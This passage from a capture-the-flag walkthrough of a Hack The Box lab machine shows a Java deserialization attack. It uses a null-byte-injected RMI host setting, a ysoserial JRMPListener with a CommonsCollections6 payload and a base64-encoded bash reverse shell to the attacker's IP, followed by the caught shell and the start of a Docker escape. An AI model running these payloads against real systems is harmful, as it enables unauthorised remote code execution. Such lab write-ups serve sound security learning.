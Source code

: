 ```
    -H $'Host: www.webhosting.htb' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 102' -H $'Origin: https://www.webhosting.htb' -H $'Referer: https://www.webhosting.htb/hosting/reconfigure' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-User: ?1' -H $'Te: trailers' -H $'Connection: close' \
    -b $'JSESSIONID=3B4FE0A1DCF5F21EA7D091BA6B06A9EB' \
    --data-binary $'domains.max=5&domains.start-template=%3Cbody%3E%0D%0A%3Ch1%3EIt+works%21%3C%2Fh1%3E%0D%0A%3C%2Fbody%3E&rmi.host=10.10.14.5%00.htb' \
    $'https://www.webhosting.htb/hosting/reconfigure'
```

To exploit this you will need a copy of [ysoserial](https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar), you will probably have to do a couple of things to get it to work. `ysoserial` does not work great with newer versions of Java, on my machine I had version 17 and it did not work. To fix this you can install version 11 and it will work:
```
sudo apt update -y  
sudo apt install openjdk-11-jdk
sudo update-alternatives --config java PICK JAVA 11
java --version
```

 Send the POST request shown above to update the RMI host, as the config resets pretty often. Then run the command below to host the payload, make sure to change the base64 to your IP. After going to https://www.webhosting.htb/hosting/panel you should get a connection back.
 ```
┌──(kali㉿kali)-[~/htb/registryTwo]
└─$ java -cp /opt/ysoserial/ysoserial-all.jar ysoserial.exploit.JRMPListener 9002 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}"
```

And the connection:
```
┌──(kali㉿kali)-[~/htb/registryTwo]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.223] 42227
id
uid=1000(app) gid=1000(app) groups=1000(app)
```

## Docker Escape
The shell we get back is not a full TTY, and I couldn't get a full one easily. I know that I'm in a docker container because of the presence of `.dockerenv` in the root of the file system:
```
ls -la
total 72
drwxr-xr-x    1 root     root          4096 Jul  5  2023 .
drwxr-xr-x    1 root     root          4096 Jul  5  2023 ..
-rwxr-xr-x    1 root     root             0 Jul  4  2023 .dockerenv
drwxr-xr-x    1 root     root          4096 Jul  5  2023 bin
drwxr-xr-x    5 root     root           340 Feb  8 03:35 dev
drwxr-xr-x    1 root     root          4096 Jul  5  2023 etc
drwxr-xr-x    1 root     root          4096 Jul  5  2023 home
drwxr-xr-x    1 root     root          4096 Jul  5  2023 lib
drwxr-xr-x    5 root     root          4096 Jan  9  2018 media
drwxr-xr-x    2 root     root          4096 Jan  9  2018 mnt
dr-xr-xr-x  196 root     root             0 Feb  8 03:35 proc
drwx------    1 root     root          4096 Jul  5  2023 root
drwxr-xr-x    2 root     root          4096 Jul  5  2023 run
drwxr-xr-x    2 root     root          4096 Jul  5  2023 sbin
drwxr-xr-x    2 root     root          4096 Jul  5  2023 srv
dr-xr-xr-x   13 root     root             0 Feb  8 03:35 sys
```